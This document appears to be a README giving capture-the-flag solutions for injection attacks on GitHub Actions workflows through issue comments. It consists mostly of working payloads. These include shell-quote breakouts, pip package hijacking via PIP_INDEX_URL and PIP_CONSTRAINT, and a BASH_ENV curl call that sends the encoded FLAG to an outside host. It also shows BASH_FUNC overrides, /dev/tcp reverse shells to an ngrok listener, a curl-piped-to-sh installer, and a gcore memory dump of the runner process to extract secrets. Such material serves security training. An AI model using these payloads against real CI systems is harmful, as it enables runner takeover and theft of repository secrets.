 <a id="readme-top"></a>
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#chall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 3</a>
      <ul>
        <li><a href="#using-bash_env">Using BASH_ENV</a></li>
        <li><a href="#using-bash_func">Using BASH_FUNC</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-4">Challenge 4</a>
    </li>
    <li>
      <a href="#chall-5">Challenge 5</a>
    </li>
  </ol>
</details>

# Chall 1

Issue Comment:
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>






# Chall 2
### Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/)
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)

_Below is how to setup the library to inject_
1. Install Python
2. Install PIP
```sh
pip install wheel
pip install setuptools
```
4. Create a new directory named pyyaml
5. Create a setup.py
```Python
from setuptools import setup, find_packages

setup(
    name='pyyaml',
    version='6.0.1',
    packages=find_packages(),
    install_requires=[],  # Si tu veux ajouter des dépendances
    entry_points={
        'console_scripts': [
            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
        ],
    },
)
```
6. Create a directory named `yaml`
7. Add `__INIT__` file in the directory named yaml and edit:
```Python
import os

print("HELLO TDF")
env_vars = os.environ
for key, value in env_vars.items():
    if key == "flag" or key == "FLAG":
        print("===== FLAG SPLIT =====")
        print(f'Part 1 (0-5): {value[0:5]}')
        print(f'Part 2 (5-100): {value[5:100]}')
```
8. Directory should be like that
<ul>
  <li>pyyaml</li>
    <ul>
      <li>setup.py</li>
      <li>yaml</li>
      <ul>
        <li>__init__.py</li>
      </ul>
    </ul>
  </li>
</ul>

9. Execute
``` sh
python setup.py bdist bdist_wheel
```

Issue Comment:
``` sh
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith:
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting an issue. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

1. Go to BeeCeptor.com
2. add new `Mocking Rules`
``` md
Match value: /<file_name>.txt
Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
```

Issue Comment:
``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/constraint.txt
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 3
### Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Body Issue Comment:
``` bash
Let me do something with this env :)
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using BASH_FUNC
Body Issue Comment:
``` bash
Let me do something with this env :)
# BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
BASH_FUNC_echo%%=() { builtin echo "$FLAG $@" | base64 ;}
```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 4
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```

Body Issue Comment:
``` bash
Where is my bash ??
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
5. Investigate in the runner 
The directory `/home/runner/work/_temp` look interesting...


> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 5
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```
Body Issue Comment:
``` bash
Where is my bash ??
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
5. Dump `Runner.Listener` process memory and check those secrets
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>
 
